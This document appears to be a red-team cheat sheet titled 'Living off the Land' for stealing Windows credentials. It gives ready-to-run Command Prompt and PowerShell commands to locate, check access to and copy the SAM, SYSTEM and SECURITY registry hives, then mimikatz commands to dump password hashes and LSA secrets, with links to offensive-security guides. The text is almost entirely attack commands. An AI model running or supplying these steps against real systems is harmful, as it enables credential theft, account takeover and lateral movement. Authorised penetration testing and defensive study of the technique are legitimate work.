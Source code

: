 # Living off the Land

## 01 - Search hive files

### 1.1 - Command Prompt

```
C:\> dir /s /b SECURITY

C:\> dir /s /b SYSTEM

C:\> dir /s /b SAM
```

### 1.2 - PowerShell

```
PS C:\> Get-ChildItem -Path C:\ -Recursive -Include SECURITY,SYSTEM,SAM
```

## 02 - Enumerate hive files

### 2.1 - Command Prompt

```
C:\> icacls C:\Windows\System32\config\SECURITY
icacls C:\Windows\System32\config\SYSTEM
icacls C:\Windows\System32\config\SAM
icacls C:\Windows\Repair\SAM
icacls C:\Windows\Repair\SYSTEM
```

If it was misconfigured that the users are allowed to access `BUILTIN\Users:(I)(RX)` to those sensitive credentials files or it could be on a particular user that was configured that allows it to access when it's the admin has the privileges.

### 2.2 - PowerShell

TODO: More ways to find and enumerate in powershell

```
PS C:\> Get-ChildItem -Path C:\ -Recursive -Include SECURITY,SYSTEM,SAM | Get-ACL
```

## 03 - Extract hive files

### 3.1 - Command Prompt

#### 3.1.1 - Extract it via registry

```
C:\> reg.exe save hklm\security c:\temp\security
reg.exe save hklm\system c:\temp\system
reg.exe save hklm\sam c:\temp\sam
```

#### 3.1.2 - Copy files

```
C:\> copy C:\Windows\System32\config\SAM c:\temp\sam

C:\> copy C:\Windows\System32\config\SECURITY C:\temp\security 

C:\> copy C:\Windows\System32\config\SYSTEM c:\temp\system
```

#### 3.1.3 - Output the files' contents

```
C:\> type C:\Windows\System32\config\SAM > c:\temp\sam

C:\> type C:\Windows\System32\config\SECURITY > C:\temp\security

C:\> type C:\Windows\System32\config\SYSTEM > c:\temp\system
```

### 3.2 - PowerShell

#### 3.2.2 - Copy files

```
PS C:\> Copy-Item C:\Windows\System32\config\SAM c:\temp\sam

PS C:\> Copy-Item C:\Windows\System32\config\SECURITY C:\temp\security 

PS C:\> Copy-Item C:\Windows\System32\config\SYSTEM c:\temp\system
```

#### 3.2.3 - Output the files' contents

```
PS C:\> Get-Content C:\Windows\System32\config\SAM > c:\temp\sam

PS C:\> Get-Content C:\Windows\System32\config\SECURITY > C:\temp\security

PS C:\> Get-Content C:\Windows\System32\config\SYSTEM > c:\temp\system
```

## 04 - Hashdump

### 4.1 - Dumping SAM credentials with `mimikatz`

```
mimikatz # lsadump::sam /system:c\:temp\system /sam:c:\temp\sam
```

## 05 - LSASS Secrets

### 5.1 - Dumping LSASS secrets credentials with `mimikatz`

```
mimikatz # lsadump::secrets /system:c\:temp\system /security:c:\temp\security
```

---
## References

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [LOFLCAB: Get-ChildItem](https://lofl-project.github.io/loflcab/Cmdlets/Get-ChildItem/)

- [Red Team Notes: Dumping Hashes from SAM via Registry](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)

- [Credential Access and Credential Dumping: Dumping LSA Secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)

- [Credential Access and Credential Dumping: Dumping and Cracking MSCash Cached Domain Credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

- [Hacking Articles: Credential Dumping SAM](https://www.hackingarticles.in/credential-dumping-sam/)